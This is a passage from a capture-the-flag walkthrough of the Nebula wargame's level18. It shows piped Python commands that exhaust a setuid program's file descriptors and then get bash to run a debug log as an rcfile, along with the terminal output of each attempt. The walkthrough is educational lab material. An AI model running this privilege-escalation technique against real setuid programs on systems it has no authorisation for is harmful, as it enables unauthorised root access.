 ```
level18@nebula:/home/flag18$ python -c "print('login me\n'*1021 + 'closelog\n' + 'shell')" | ./flag18 -v -d /tmp/flag18/debug
./flag18: -d: invalid option
Usage:  ./flag18 [GNU long option] [option] ...
    ./flag18 [GNU long option] [option] script-file ...
GNU long options:
    --debug
    --debugger
    --dump-po-strings
    --dump-strings
    --help
    --init-file
    --login
    --noediting
    --noprofile
    --norc
    --posix
    --protected
    --rcfile
    --restricted
    --verbose
    --version
Shell options:
    -irsD or -c command or -O shopt_option      (invocation only)
    -abefhkmnptuvxBCHP or -o option
```

Right, so we need to remember that we're running `sh` here, and our arguments are being passed to it. Unfortunately `-d` and such are not valid here. Time to read the manual....

> **--rcfile file**
>
> Execute commands from file instead of the system wide initialization file /etc/bash.bashrc and the standard personal initialization file ~/.bashrc if the shell is interactive (see INVOCATION below).

Ok, well, it's worth a shot.

```
level18@nebula:/home/flag18$ python -c "print('login me\n'*1021 + 'closelog\n' + 'shell')" | ./flag18 --rcfile -d /tmp/flag18/debug
./flag18: invalid option -- '-'
./flag18: invalid option -- 'r'
./flag18: invalid option -- 'c'
./flag18: invalid option -- 'f'
./flag18: invalid option -- 'i'
./flag18: invalid option -- 'l'
./flag18: invalid option -- 'e'
/tmp/flag18/debug: line 1: Starting: command not found
/tmp/flag18/debug: line 2: syntax error near unexpected token `('
/tmp/flag18/debug: line 2: `logged in successfully (without password file)'
```
